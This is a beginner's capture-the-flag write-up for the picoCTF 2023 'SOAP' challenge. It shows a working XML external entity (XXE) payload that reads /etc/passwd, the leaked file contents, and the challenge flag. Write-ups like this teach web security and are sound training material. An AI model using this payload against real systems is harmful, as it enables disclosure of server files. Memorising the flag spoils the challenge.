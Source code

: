 # [PicoCTF 2023](https://play.picoctf.org/events/72/): SOAP
## Info
**Category**: Web Exploitation  
**Points**: 100

## Description
The web project was rushed and no security assessment was done. Can you read the `/etc/passwd` file?

**Hint:**  
XML external entity Injection

## Writeup
After launching the challenge instance, we are greeted with a website with 3 buttons. Pressing each outputs a short message at the bottom of the site.

![Challenge Website](image.png)

After we open the website in the Burp Suite Proxy browser, pressing a button generates the following POST request:

![](image-1.png)

The main payload appears to be XML data. The hint for this challenge is "XML external entity Injection", which is explained in detail [here](https://portswigger.net/web-security/xxe). We can create a payload that accesses the file `/etc/passwd` by using the `SYSTEM` keyword when defining a custom XML entity like this:

```
<?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <data>
        <ID>
            &xxe;
        </ID>
    </data>
```

After sending the request, the contents of `/etc/passwd` are revealed to us at the bottom of the page:

```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
[SNIP]
...
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```

And there's the flag! **`picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}`**

---
(P.S. This is my first writeup ever, I hope you liked it!)